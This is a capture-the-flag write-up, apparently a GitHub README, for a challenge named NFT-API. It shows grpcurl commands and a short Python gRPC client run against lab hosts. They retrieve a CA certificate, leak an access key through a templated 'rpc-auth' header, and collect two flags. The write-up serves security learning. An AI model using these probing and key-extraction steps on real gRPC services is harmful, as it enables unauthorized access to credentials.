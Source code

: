 # NFT-API

## First part

First, we needed to fetch a Certificate Authority from the Chanterelle gRPC server. To do so, we used `grpcurl`, with the following command:

```bash
$ grpcurl --proto ./chanterelle/chanterelle.proto --plaintext nftapi.ctf:50052 Chanterelle.CAPrinter > out
```

This gave us the flag and the CA certificate, which could be seen like this:
```bash
$ cat out | jq .flag
<flag>
$ cat out | jq .ca
<ca cert>
```

:triangular_flag_on_post:


## Second part

Now that we have the CA, we can communicate with Morel's gRPC server. Using the following command, we were able to extract an access key to be used later on:

``` bash
❯ grpcurl --proto ./morel/morel.proto --insecure --cacert ./ca -expand-headers -rpc-header "rpc-auth: {s.access_key}" nftapi.ctf:50053 Morel.AuthenticationValidator
<access_key>
```

Then, using this python script, we were able to get the flag from the gRPC response:

```py
import grpc
import morel_pb2_grpc
import morel_pb2

def client():
  with open('ca.crt', 'rb') as f:
    ca_cert = f.read()
  credentials = grpc.ssl_channel_credentials(ca_cert)
  with grpc.secure_channel('nftapi.ctf:50053', credentials) as channel:
    stub = morel_pb2_grpc.MorelStub(channel)
    request = morel_pb2.AuthenticationAnswer()
    response = stub.AuthenticationValidator(request=request, metadata=(('rpc-auth', '<access_key_here>'),))
    print(response) # Flag is printed here

if __name__ == '__main__':
  client()
```

:triangular_flag_on_post: 